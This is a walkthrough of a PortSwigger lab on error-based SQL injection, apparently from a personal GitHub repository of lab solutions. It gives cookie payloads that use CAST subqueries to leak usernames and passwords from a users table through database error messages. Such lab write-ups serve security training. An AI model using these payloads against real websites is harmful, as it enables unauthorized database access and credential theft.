![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/37f37187-6df1-46a6-ac23-bc6a366f1ccb)

## Solution

Using Burp's built-in browser, explore the lab functionality.
![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/6a11c2a9-361e-4ce3-ae1a-9c7072746692)

Go to the Proxy > HTTP history tab and find a GET / request that contains a TrackingId cookie.
![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/7922bd1f-7c52-487f-acf1-b4b81bc9ceac)

In Repeater, append a single quote to the value of we TrackingId cookie and send the request.
> TrackingId=ogAZZfxtOKUELbuJ'
![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/74119016-5ef4-43ae-9be3-8a1942616208)

In the response, notice the verbose error message. This discloses the full SQL query, including the value of your cookie. It also explains that we have an unclosed string literal. 
Observe that injection appears inside a single-quoted string.

In the request, add comment characters to comment out the rest of the query, including the extra single-quote character that's causing the error:
> TrackingId=ogAZZfxtOKUELbuJ'--
![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/eb6baa60-077a-49cd-8bd8-54e75f396734)

Adapt the query to include a generic SELECT subquery and cast the returned value to an int data type:
> TrackingId=ogAZZfxtOKUELbuJ' AND CAST((SELECT 1) AS int)--
![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/5403eaf0-651c-456e-8821-b7f1362201c6)

Modify the condition accordingly. For example, we can simply add a comparison operator (=) as follows:
> TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT 1) AS int)--
![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/bfc1a755-f058-473a-b468-eefd7a16af9d)

Adapt generic SELECT statement so that it retrieves usernames from the database:
> TrackingId=ogAZZfxtOKUELbuJ' AND 1=CAST((SELECT username FROM users) AS int)--
![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/488379a3-5daf-4c97-b1ab-038655f9ca87)

Delete the original value of the TrackingId cookie to free up some additional characters. Resend the request.
> TrackingId=' AND 1=CAST((SELECT username FROM users) AS int)--
![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/47d2667f-900a-4134-9827-10a9173c46ce)

Modify the query to return only one row:
> TrackingId=' AND 1=CAST((SELECT username FROM users LIMIT 1) AS int)--
![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/4d3525f2-3921-4a36-8848-b7517cf34417)

Modify the query by changing username to password
![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/8d3a4002-9e7a-48ee-aa96-c93561796fb3)

![image](https://github.com/Nifalnasar/Portswigger-Labs/assets/141356053/a721d81b-1cf9-47dd-8c65-630af48e7f0a)
